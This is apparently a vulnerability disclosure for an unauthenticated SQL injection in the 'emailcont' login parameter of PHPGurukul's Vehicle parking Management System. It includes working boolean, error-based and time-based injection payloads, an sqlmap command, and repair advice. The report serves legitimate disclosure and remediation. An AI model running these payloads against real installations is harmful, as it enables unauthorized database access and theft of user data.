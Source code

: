# Vehicle parking Management System in V1.13 SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Vehicle parking Management System

## Vendor Homepage

- https://phpgurukul.com/vehicle-parking-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

Flow Huang

## Vulnerable File

- /vpms/users/login.php

## VERSION(S)

- V1.1.3

## Software Link

- https://phpgurukul.com/wp-content/uploads/2019/07/Vehicle-parking-Management-System-in-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/vpms/users/login.php' file of the 'Vehicle parking Management System' project. The reason for this issue is that attackers inject malicious code from the parameter 'emailcont' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Vehicle parking Management System",I discovered a critical SQL injection vulnerability "/vpms/users/login.php" file. This vulnerability stems from insufficient user input validation of the 'emailcont' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'emailcont‘ parameter

## Payload:

```
Parameter: emailcont (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: emailcont=-4052') OR 6473=6473-- idXB&password=1&login=

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: emailcont=1234567890') OR ROW(9062,1573)>(SELECT COUNT(*),CONCAT(0x7178707171,(SELECT (ELT(9062=9062,1))),0x7170767171,FLOOR(RAND(0)*2))x FROM (SELECT 2536 UNION SELECT 5826 UNION SELECT 2136 UNION SELECT 5267)a GROUP BY x)-- ekgd&password=1&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: emailcont=1234567890') AND (SELECT 8413 FROM (SELECT(SLEEP(5)))eoDH)-- MXmN&password=1&login=
---
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r sql.txt --batch --risk 3 --level 5 --dbs
```

![](https://cdn.jsdelivr.net/gh/lintian31/blog-image/blog-image/20250409140515.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
